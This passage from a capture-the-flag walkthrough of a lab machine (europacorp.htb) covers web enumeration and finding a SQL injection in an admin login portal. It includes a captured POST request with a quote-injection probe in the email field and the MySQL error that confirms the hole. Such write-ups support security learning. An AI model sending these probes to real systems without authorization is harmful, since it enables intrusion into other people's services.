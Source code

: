 It also returns this same page for `http://europacorp.htb`, `https://europacorp.htb`, `http://www.europacorp.htb`, `https://www.europacorp.htb`, and `http://admin-portal.europacorp.htb`.

I also ran `gobuster` and didn’t find anything.

### admin-portal.europacorp.htb - TCP 443

#### Site

`https://admin-portal.europacorp.htb/login.php` loads a login portal for the EuropaCorp Server ADmin v0.2 beta:

![image-20210121203226552](https://0xdfimages.gitlab.io/img/image-20210121203226552.png)

The local JavaScript requires an email address in the top field. Some basic guessing didn’t get me anywhere.

#### SQLi

I tried to enter an email address with a `'` at the end into the page, but the local validation rules didn’t allow submission. I found a login request in Burp and kicked it over to Repeater, and added one to the end of the email:

```

POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Connection: close
Cookie: PHPSESSID=6o0ld056n5a3v8gkvv57fg6dk5
Upgrade-Insecure-Requests: 1

email=admin%40europacorp.htb'&password=admin&remember=Remember+Me

```

The response shows a clear SQL injection opportunity:

```

HTTP/1.1 200 OK
Date: Fri, 22 Jan 2021 01:35:59 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 179
Connection: close
Content-Type: text/html; charset=UTF-8

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '21232f297a57a5a743894a0e4a801fc3'' at line 1

```
